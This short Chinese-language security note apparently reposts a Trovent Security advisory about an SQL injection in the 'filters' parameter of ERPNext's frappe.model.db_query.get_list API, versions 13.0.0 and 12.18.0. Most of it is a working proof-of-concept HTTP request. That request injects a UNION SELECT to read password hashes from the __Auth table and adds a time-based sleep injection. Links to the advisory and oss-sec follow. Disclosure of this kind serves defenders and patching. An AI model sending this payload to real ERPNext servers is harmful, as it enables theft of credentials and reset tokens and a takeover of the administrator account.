 # ERPNext 13.0.0/12.18.0 中的SQL注入漏洞


Trovent Security GmbH 在“frappe.model.db_query.get_list”API参数中发现了一个SQL注入漏洞。在13.0.0版本上，不需要任何特权的Payload就足够了，但是在12.18.0版本上，至少需要“system_user”特权。易受攻击的参数“filters”允许注入SQL语句。攻击者能够查询所有可用的数据库表，以检索用户名，密码哈希或密码重置令牌，然后可以使用这些密码来重置管理员密码。

poc：

```
GET /api/method/frappe.model.db_query.get_list?filters=%7b%22name%20UNION%20SELECT%20password%20from%20%60__Auth%60%20--%20%22%3a
%20%22administrator%22%7d&fields=%5b%22name%22%5d&doctype=User&limit=20'%3b%20do%20sleep(10)&order_by=name&_=1615372773071 HTTP/1.1
Host: erpnext.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Frappe-CSRF-Token: 0e89c5c43898da856fe12e19a57991d7bdf380477d0354f93ce6bcf3
X-Frappe-CMD:
X-Frappe-Doctype: Dashboard%20Settings
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://erpnext.local/app/website
Cookie: io=NVosyhHCvV3KdkxNAAi7; sid=26f7ddefef642c0f88b9babfc26b751229c32b565304f30815d8ec22; system_user=no; full_name=auth%20test%27; user_id=auth%40trovent.io; user_image=
```

ref：

1. https://trovent.io/security-advisory-2103-01
2. https://seclists.org/oss-sec/2021/q2/121
